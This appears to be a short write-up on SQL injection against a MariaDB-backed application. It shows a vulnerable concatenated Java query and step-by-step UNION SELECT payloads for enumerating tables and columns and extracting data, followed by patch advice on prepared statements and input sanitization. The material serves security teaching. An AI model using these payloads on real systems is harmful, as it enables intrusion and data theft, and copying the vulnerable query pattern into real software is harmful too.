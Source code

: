 🚨 **EXPLOIT**

#### SQL injection

Example of unsafe query constructed with concatenation of user input :

`String query = "SELECT \* FROM accounts WHERE custID='" + request.getParameter("id") + "'";`

#### Steps

1. Find the Database system

- We can find it easily here with the input "'" that tells us the system is MariaDB.

2. Find the number of columns returned from the original query

- `1 ORDER BY X` Keep increasing `X` until an error is caused.

3. Use Union to find the

=> tables names

`1 UNION SELECT NULL, table_name FROM information_schema.tables--`

=> columns names

`1 UNION SELECT NULL,column_name FROM information_schema.columns WHERE table_name=X--`

Where X is converted in hex to avoid any filtering and any issue with the character "'".

4. Extract important information (the number of columns must match the original query)

`1 UNION SELECT a,b FROM C`

5. Decrypt from MD5

---

✅ **PATCH**

- Use prepared statements
- Use a safe API with a parameterized interface
- Sanitize the input server side (if a number is expected, only accept numbers, escape special characters like " ' , etc...")
- Use PDO in **php** or mysql_real_escape_string to prevent sql injection.
